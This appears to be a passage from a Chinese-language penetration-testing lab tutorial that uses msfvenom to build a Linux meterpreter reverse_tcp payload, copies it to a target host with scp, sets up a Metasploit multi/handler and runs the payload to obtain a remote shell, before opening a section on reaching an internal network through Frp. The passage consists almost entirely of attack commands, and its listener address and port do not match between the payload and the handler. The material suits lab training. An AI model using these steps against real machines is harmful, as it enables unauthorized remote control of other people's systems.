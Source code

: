 生成 Payload

```
┌──(root㉿Kali-24)-[~]
└─# msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.6.112 LPORT=8000 -b "\x00" -f elf -o hello
```

发送至目标

```
┌──(root㉿Kali-24)-[~]
└─# scp hello root@192.168.6.76:/root/
```

配置 msf

```
┌──(root㉿Kali-24)-[~]
└─# msfdb run
```

```
msf6 > use exploit/multi/handler
```

```
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
```

```
msf6 exploit(multi/handler) > set LHOST 192.168.6.24
```

```
msf6 exploit(multi/handler) > set LPORT 4444
```

在目标执行 Payload

```
[root@CentOS-76 ~]# chmod +x hello
```

```
[root@CentOS-76 ~]# ./hello
```

> 执行后客户端成功拿到目标 shell

# 6 通过 Frp 实现跨网段获取内网 shell

实验环境

![](./../../../images/Frp/%E5%AE%9E%E9%AA%8C%E7%8E%AF%E5%A2%83.png)
